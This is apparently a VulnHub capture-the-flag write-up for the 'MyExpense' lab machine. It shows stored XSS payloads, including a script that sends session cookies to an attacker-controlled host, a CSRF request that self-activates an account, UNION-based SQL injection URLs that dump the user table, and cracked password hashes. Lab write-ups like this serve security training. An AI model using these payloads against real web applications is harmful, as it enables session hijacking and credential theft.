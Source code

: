 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/"}
---
```


From description we have the credentials
samuel/fzghn4lw
# Scan
General scan
PORT      STATE SERVICE REASON
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
# 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![Pasted image 20240703173824.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175519.png)
And delete the disable part.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175631.png)
Now the button is enable and we can create the new account.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175654.png)
We are in the system with an inactive account.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703180410.png)
Check the admin panel and we have a XSS.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![](/img/user/Write-ups/VulnHub/attachments/Pasted image 20240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)